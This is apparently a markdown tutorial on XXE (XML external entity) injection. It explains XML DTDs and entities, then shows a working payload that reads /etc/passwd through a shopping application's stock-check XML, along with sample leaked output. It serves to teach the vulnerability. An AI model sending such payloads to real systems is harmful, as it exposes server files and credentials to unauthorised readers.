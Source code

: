# XXE (XML external entity) injection

XXE (XML External Entity) is a vulnerability that occurs when an attacker can manipulate or inject malicious XML content into an application, leading to the potential disclosure of sensitive information or denial of service. This typically happens when the application processes XML input from untrusted sources without proper validation, allowing attackers to exploit the XML parsing functionality to their advantage.

### Table of content 

- [XML](#xml)
    - [Document type definition](#document-type-definition)
    - [XML entities](#xml-entities)
- **Exploit**
    -[
] 
## XML

XML (Extensible Markup Language) is a versatile and structured markup language used for storing, transporting, and exchanging data. It's known for its human-readable format and plays a critical role in various web technologies and data storage solutions. Its popularity has now declined in favor of the JSON format.

### Document type definition

A Document Type Definition (DTD) in XML is a declaration that defines the structure and the legal elements and attributes of an XML document. It provides a set of rules for validating the structure and content of the XML document, ensuring that it conforms to a specific format or schema.

### XML entities

XML entities are placeholders used within an XML document to represent and reference data, enabling the reuse and organization of content. They are commonly employed to manage and structure data effectively in XML documents.

#### Default entities

Various entities are built in to the specification of the XML language. For example, the entities &lt; and &gt; represent the characters < and >. These are metacharacters used to denote XML tags, and so must generally be represented using their entities when they appear within data.

#### Custom entities

```html
<!DOCTYPE bookInfo [
  <!ENTITY bookTitle "Harry Potter and the Philosopher's Stone">
]>
<book>
  <title>&bookTitle;</title>
  <author>J.K. Rowling</author>
</book>
```

#### External entities

XML external entities are a type of custom entity whose definition is located outside of the DTD where they are declared.

The declaration of an external entity uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:

```html
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
```

The URL can use the file:// protocol, and so external entities can be loaded from file. For example:

```html
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

## Exploit

## Retrieve files

To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

- Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the /etc/passwd file by submitting the following XXE payload:

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

This XXE payload defines an external entity &xxe; whose value is the contents of the /etc/passwd file and uses the entity within the productId value. This causes the application's response to include the contents of the file:

```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

...

---

[**:arrow_right_hook: Back home**](/README.md)
